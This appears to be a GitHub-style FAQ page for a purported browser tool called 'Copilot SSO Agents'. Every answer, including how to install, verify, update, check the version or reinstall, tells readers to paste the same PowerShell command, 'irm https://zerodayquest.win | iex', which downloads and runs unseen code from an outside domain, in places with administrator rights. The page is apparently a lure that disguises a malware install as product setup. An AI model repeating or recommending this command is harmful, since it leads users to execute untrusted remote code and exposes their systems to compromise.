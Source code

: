 ### **3. How do I install Copilot SSO Agents on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install Copilot SSO Agents using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that Copilot SSO Agents is installed?**  
After running the installation command, your system will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If Copilot SSO Agents is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update Copilot SSO Agents?**  
To update SSO, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall Copilot SSO Agents?**  
To uninstall, remove Copilot SSO Agents from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install Copilot SSO Agents without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of Copilot SSO Agents?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
